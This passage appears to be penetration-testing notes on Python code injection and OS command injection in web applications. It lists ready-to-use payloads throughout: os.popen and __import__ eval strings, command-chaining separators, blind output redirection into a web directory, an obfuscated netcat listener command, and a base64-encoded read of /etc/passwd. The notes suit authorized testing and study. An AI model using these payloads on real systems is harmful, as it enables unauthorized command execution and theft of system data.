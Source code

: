       - Python [Sethsec](https://sethsec.blogspot.com/2016/11/exploiting-python-code-injection-in-web.html)
         - `+` for concat
         - `str(os.popen("ls").read())`
         - `str(__import__('os').system('id'))`
         - `str(__import__('os').popen('id').read())`
         - `str(__import__('os').popen(__import__('base64').base64decode('<command in base64>')).read())`
- Check browser network if it's loading any injectable params      

### Command Injection

- Try all characters for chaining commands [PayloadAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#chaining-commands)
- Straight out try *backtick* `reverse shell or ping` *backtick* or `$(<command>)` [PayloadAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#inside-a-command)
- try adding `;` `&` `|` `||` at the end of the command aswell. EX: `email=all3n@evo.test|sleep+5|`
- there's a script in etc
- blind and can't get a shell? maybe there's a writable directory /images? whoami>/var/www/images 
- we can use the semicolon (;), the logical AND (&&), the logical OR (||), and even a single pipe character (|)
- In addition to the semicolon, which allows us to chain multiple commands together in one statement, another unique separator for Linux is the newline (\n)
- URL encode. USE BURP.
- Use null statement `$()`
  - This technique also works for more complex payloads like `nc -nlvp 9090`, which becomes: `n$()c -n$()lvp 9090`
- Convert to base64 then decode
  - `echo+'Y2F0IC9ldGMvcGFzc3dkCg==+'|+base64+-d`
  - if no base64 use openssl
- Check for the following:

  Linux

  ![](/notes/nixinject.png)
